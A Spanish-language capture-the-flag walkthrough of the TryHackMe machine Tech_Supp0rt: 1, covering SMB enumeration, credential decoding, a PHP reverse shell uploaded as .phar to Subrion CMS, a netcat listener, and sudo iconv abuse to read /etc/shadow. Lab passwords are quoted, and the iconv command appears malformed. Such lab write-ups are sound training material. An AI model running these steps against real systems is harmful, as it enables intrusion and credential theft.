


# Guía de Explotación - TryHackMe Tech_Supp0rt: 1

## 1. Reconocimiento

Iniciamos el reconocimiento con un escaneo de Nmap utilizando el siguiente comando:

```bash
nmap -sC -p- --open -n --max-rate 1000 -sV IP_MAQUINA_ATACADA
```



El escaneo revela los siguientes puertos abiertos:
- **22/TCP** (SSH)
- **80/TCP** (HTTP)
- **139/TCP** (SMB)
- **445/TCP** (SMB)

A continuación, enumeramos los recursos compartidos por el servidor Samba utilizando el script ``smb-enum-shares`` de Nmap:

```bash
nmap --script="smb-enum-shares" -p139 IP_MAQUINA_ATACADA
```


El script identifica tres recursos compartidos accesibles con el usuario ``guest``. Uno de estos recursos es un directorio llamado ``websvr``, en el que los usuarios anónimos tienen permisos de lectura y escritura.

Para acceder a este directorio, establecemos una conexión anónima con el siguiente comando:

```bash
smbclient //IP_MAQUINA_ATACADA/websvr -p 139 -U anonymous
```


Dentro del directorio ``websvr``, encontramos un archivo llamado ``enter.txt``. Lo descargamos y revisamos su contenido:

```bash
get enter.txt
cat enter.txt
```


El archivo contiene credenciales posiblemente válidas para acceder al portal de administración del ``CMS Subrion``. Además, menciona que existen dos sitios web, uno desarrollado en ``WordPress`` y otro en ``Subrion``.


Accedemos al portal del CMS Subrion a través del navegador:


El formulario de inicio de sesión requiere autenticación. Como la contraseña del archivo ``enter.txt`` está codificada, utilizamos la herramienta CyberChef con la operación "Magic" para identificar y decodificar la contraseña.


Tras decodificar la contraseña, nos autenticamos con las siguientes credenciales:

```plaintext
Usuario: admin
Contraseña: Scam2021
```


Ingresamos exitosamente al portal de administración, donde encontramos la opción de subir archivos. Además, identificamos que la versión del CMS Subrion es la **4.2.1**.


## 2. Ganar Acceso

Buscamos vulnerabilidades para la versión 4.2.1 en `https://www.exploit-db.com/`.


Encontramos un exploit que permite la carga de archivos ``.phar`` y ``.pht``, lo que facilita la ejecución de una **reverse shell**.

Descargamos la reverse shell en PHP:

```bash
wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
```

Extraemos y editamos el archivo PHP para configurar nuestra IP y puerto:

```bash
$ip = "IP_MAQUINA_ATACANTE";
$port = "PUERTO_LIBRE";
```


Renombramos la extensión de ``.php`` a ``.phar`` para evadir restricciones:

```bash
mv php-reverse-shell.php reverse.phar
```

Subimos el archivo malicioso en el panel de administración:


Ponemos a la escucha el puerto configurado:

```bash
nc -lvnp 1500
```

Ejecutamos la reverse shell accediendo a la URL donde se encuentra el archivo subido:


Estabilizamos la shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

CTRL + Z

stty raw -echo; fg
export TERM=xterm-256color
```


## 3. Escalada de Privilegios

Buscamos credenciales en los archivos de configuración de WordPress y encontramos:

```bash
Usuario: support
Contraseña: ImAScammerLOL!123!
```


Ejecutamos:

```bash
cat /etc/passwd
```

Identificamos un usuario llamado ``scamsite``. Intentamos autenticarnos con las credenciales encontradas:


Ahora enumeramos los comandos que ``scamsite`` puede ejecutar con privilegios elevados:

```bash
sudo -l
```


Observamos que el usuario puede ejecutar `iconv` con permisos de root. Este comando se usa para la conversión de codificación de caracteres, pero podemos explotarlo para leer archivos restringidos como ``/etc/shadow``.

Ejecutamos:

```bash
sudo iconv -f /etc/shadow
```


Finalmente, accedemos al archivo ``root.txt`` y obtenemos la flag:



¡Máquina comprometida con éxito!